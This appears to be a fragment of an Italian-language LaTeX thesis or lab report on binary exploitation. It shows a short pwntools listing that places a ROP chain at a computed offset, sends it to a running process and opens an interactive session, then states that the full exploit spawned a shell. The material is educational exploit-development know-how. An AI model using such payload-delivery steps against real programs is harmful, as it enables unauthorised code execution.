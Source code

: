 Infine, fu deciso di utilizzare le funzioni \textbf{fit}() e \textbf{sendline}(), entrambe della libreria \textbf{pwntools}, per generare automaticamente l'input con gli offset corretti e in successione inviarlo direttamente al programma durante la sua esecuzione:
\begin{lstlisting}[language=Python, label=sendpayload, caption={Creazione del payload finale ed invio della chain al programma.}, style =Python]
payload = dict()                                # creazione dizionario
payload[offset] = rop
p.sendline(fit(payload))                        # invio payload al processo
p.interactive()                                 # interazione da terminale con processo
\end{lstlisting}
Il risultato finale eseguendo l'exploit completo fu quello desiderato, ossia la corretta esecuzione di una \textit{shell}.

